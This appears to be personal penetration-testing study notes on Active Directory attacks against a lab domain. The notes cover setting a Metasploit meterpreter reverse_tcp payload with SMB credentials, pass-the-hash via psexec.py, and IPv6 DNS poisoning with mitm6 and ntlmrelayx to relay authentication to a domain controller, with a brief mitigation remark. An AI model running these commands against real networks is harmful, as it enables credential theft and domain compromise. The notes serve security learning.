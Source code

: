 
First of all we need to set the payload:
```shell
set payload windows/x64/meterpreter/reverse_tcp
```

Then:
```bash
set rhosts IP
set smbdomain domain
set smbuser username
set smbpass Password
```
## Gain shell access with hash NOT CRACKED
**==The idea is the same but we set as password the hash:==**
- ![[Pasted image 20241217163921.png]]



We can also use `psexec.py`:
- ![[Pasted image 20241217164021.png]]
- ![[Pasted image 20241217164240.png]]




# IPv6 poisoning

**==The idea is to spoof DNS in order to respond toall requests related to IPv6, this because generally no one reply to IPv6 requests.==**

So when a machine authenticates to the domain controller we take the request and we use it to authenticate ourself as the victim.

With `mimt6` we will able to interceot the traffic and force the creation of an account on the domain controller.


## mimt6
To install `mimt6` we can esaly copy the binary on `/opt/mimt6` and do `sudo pip2 install .`


At this point we setup the proxy in this way:
```bash
ntlmrelayx.py -6 -t ldaps://DOMAIN CONTROLLER IP -wh fakewpad.DOMAIN -l username
```
- this will create a folder on `home` with all data `username`

So we can run mitm6:
```bash
sudo mitm6 -d marvel.local
```

## Mitigation
IPv6 poisoning abuses the fact that Windows queries for a IPv6 address even if it is only in IPv4 environment.
